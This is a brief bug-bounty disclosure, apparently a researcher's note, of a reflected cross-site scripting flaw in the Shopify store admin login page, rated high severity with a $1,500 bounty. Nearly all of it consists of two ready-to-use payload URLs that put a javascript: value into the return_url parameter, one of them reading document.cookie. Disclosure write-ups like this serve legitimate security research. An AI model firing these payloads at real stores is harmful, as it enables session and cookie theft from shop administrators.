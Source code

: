 ## 0x01 Reflected XSS on $Any$.myshopify.com/admin	

Severity	High (7 ~ 8.9)
Bounty	$1,500

## 0x02 

Paylaod: https://<Any>.myshopify.com/admin/authenticate?return_url=javascript:alert(100)//

 https://<Any>.myshopify.com/admin/authenticate/?return_url=https://<Any>.myshopify.com/admin/authenticate/?return_url=javascript:alert(document.cookie)